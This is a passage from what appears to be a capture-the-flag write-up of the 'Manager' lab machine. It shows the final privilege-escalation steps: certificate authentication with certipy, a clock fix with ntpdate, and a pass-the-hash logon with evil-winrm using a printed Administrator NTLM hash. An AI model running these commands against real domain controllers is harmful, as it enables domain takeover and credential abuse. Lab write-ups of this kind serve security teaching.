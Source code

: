 ```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
![Failed auth](/assets/img/Manager/Manager_12.png)

This can be easily fixed by synchronizing our clock to the one of the box we are attacking.

```bash
sudo ntpdate -u manager.htb
```
![NTPdate ](/assets/img/Manager/Manager_13.png)

Now we are able to run the same command as before and it will work for us this time. This gives us the NTLM password hash of the administrator user.

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
![Hash grabbed](/assets/img/Manager/Manager_14.png)

Now we can use pass the hash with evil-winrm to gain access to the domain controller using the administrator user.

```bash
evil-winrm  -i 10.10.11.236 -u Administrator -H 'ae5064c2f62317332c88629e025924ef'
```

![Logged on as Administrator](/assets/img/Manager/Manager_15.png)
